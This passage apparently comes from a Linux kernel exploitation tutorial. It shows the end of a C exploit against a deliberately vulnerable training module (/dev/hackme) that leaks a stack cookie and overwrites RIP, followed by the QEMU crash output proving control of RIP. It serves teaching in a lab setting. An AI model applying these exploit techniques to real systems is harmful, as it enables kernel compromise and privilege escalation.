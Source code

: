     write(global_fd, payload, sizeof(payload));
    puts("if you can read this, it did not work.");
}


int main(int argc, char **argv) {
    open_dev();
    leak_cookie();
    control_rip();

    return 0;
}
{% endhighlight %}

Again, we need to compile, compress the exploit into initramfs and
start it with qemu using run.sh.

```
$ ./control_rip
[+] successfully opened /dev/hackme
[*] trying to leak up to 320 bytes memory
[+] leaked cookie 0xa19c496548ccde00 at offset 16
[    4.268641] general protection fault: 0000 [#1] SMP PTI
[    4.269235] CPU: 0 PID: 113 Comm: control_rip Tainted: G           O      5.9.0-rc6+ #10
[    4.269605] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.3-1.fc39 04/01/2014
[    4.270271] RIP: 0010:0x4141414141414141
[    4.270653] Code: Bad RIP value.
[    4.271015] RSP: 0018:ffffa2d5c01bfeb0 EFLAGS: 00000296
[    4.271432] RAX: 0000000000000140 RBX: 4444444444444444 RCX: 0000000000000000
[    4.271753] RDX: 00000000ffffffff RSI: ffffffffc00dc580 RDI: ffffa2d5c01bff48
[    4.272099] RBP: 4242424242424242 R08: ffffffff9c46af7a R09: ffffa2d5c01bff48
[    4.272388] R10: ffffffff9bc0a157 R11: 0000000000000000 R12: 4343434343434343
[    4.272926] R13: ffffa2d5c01bfef0 R14: 00007ffd3d05bd10 R15: ffff8c27c6caef00
[    4.273360] FS:  000000000226f380(0000) GS:ffff8c27c7a00000(0000) knlGS:0000000000000000
[    4.273834] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    4.274157] CR2: 4141414141414141 CR3: 000000000652c000 CR4: 00000000003006f0
[    4.274665] Call Trace:
[    4.275780]  ? ksys_read+0xa7/0xe0
[    4.275933]  ? exit_to_user_mode_prepare+0x31/0x180
[    4.276170]  ? __x64_sys_read+0x1a/0x20
[    4.276376]  ? do_syscall_64+0x37/0x80
[    4.276564]  ? entry_SYSCALL_64_after_hwframe+0x44/0xa9
[    4.276865] Modules linked in: hackme(O)
[    4.277795] ---[ end trace 348a615b394120d4 ]---
[    4.278031] RIP: 0010:0x4141414141414141
[    4.278271] Code: Bad RIP value.
[    4.278463] RSP: 0018:ffffa2d5c01bfeb0 EFLAGS: 00000296
[    4.278747] RAX: 0000000000000140 RBX: 4444444444444444 RCX: 0000000000000000
[    4.278999] RDX: 00000000ffffffff RSI: ffffffffc00dc580 RDI: ffffa2d5c01bff48
[    4.279286] RBP: 4242424242424242 R08: ffffffff9c46af7a R09: ffffa2d5c01bff48
[    4.279604] R10: ffffffff9bc0a157 R11: 0000000000000000 R12: 4343434343434343
[    4.279952] R13: ffffa2d5c01bfef0 R14: 00007ffd3d05bd10 R15: ffff8c27c6caef00
[    4.280318] FS:  000000000226f380(0000) GS:ffff8c27c7a00000(0000) knlGS:0000000000000000
[    4.280804] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    4.281200] CR2: 4141414141414141 CR3: 000000000652c000 CR4: 00000000003006f0
Segmentation fault
...
```
